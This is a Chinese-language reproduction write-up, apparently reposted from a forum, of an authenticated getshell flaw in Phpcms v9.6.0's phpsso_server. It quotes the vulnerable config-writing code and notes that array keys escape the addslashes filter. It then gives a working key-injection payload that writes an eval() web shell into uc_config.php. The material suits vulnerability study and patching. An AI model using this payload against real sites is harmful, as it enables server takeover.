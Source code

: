 # Phpcms v9.6.0后台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3075](https://www.zhihuifly.com/t/topic/3075)

# Phpcms v9.6.0后台getshell

## 一、漏洞简介

phpsso_server 后台getshell

## 二、漏洞影响

Phpcms v9.6.0

## 三、复现过程

漏洞来自于ROOTDIR/phpsso_server/phpcms/modules/admin/system.php

```
public function uc() {
        if (isset($_POST['dosubmit'])) {
            $data = isset($_POST['data']) ? $_POST['data'] : '';
            $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
            $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
            $config = include $filepath;
            $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
            foreach ($data as $k => $v) {
                $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                $new[] = "'$k'=>'$v',";
                $uc_config .= "define('".strtoupper($k)."', '$v');\n";
            }
            $html = file_get_contents($filepath);
            $html = str_replace($old, $new, $html);
            $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
            @file_put_contents($uc_config_filepath, $uc_config);
            @file_put_contents($filepath, $html);
            $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
            showmessage(L('operation_success'), HTTP_REFERER);
        }
        $data = array();
        $r = $this->db->get_one(array('name'=>'ucenter'));
        if ($r) {
            $data = string2array($r['data']);
        }
        include $this->admin_tpl('system_uc');
    } 
```

来自这段中的

$data = isset($_POST['data']) ? $_POST['data'] : '';

和

foreach ($data as $k => $v) {
$old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
$new[] = "'$k'=>'$v',";
$uc_config .= "define('".strtoupper($k)."', '$v');\n";
}

这里接收post['data']数据中的key，value并写入配置文件ROOTDIR/phpsso_server/caches/configs/uc_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

```
public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        } 
```

全局过滤了post，但是这里只过滤了value，并没有过滤key

![image](img/a514ff83d09f445b5466dd61a583f6c8.png)

在这个地方，我们可以构造

```
name="data[uc_api','11');/*]" 
```

并在Ucenter api 地址输入:

```
*/eval($_REQUEST[test]);// 
```

再进行缓存更新

![image](img/95d050568268424b3d445b0c680bfdae.png)

就成功写入了一句话

![image](img/8ff5796316ea90651c8809933564f136.png)

![image](img/00340effd9c3ceda99bf9aec30d1429e.png)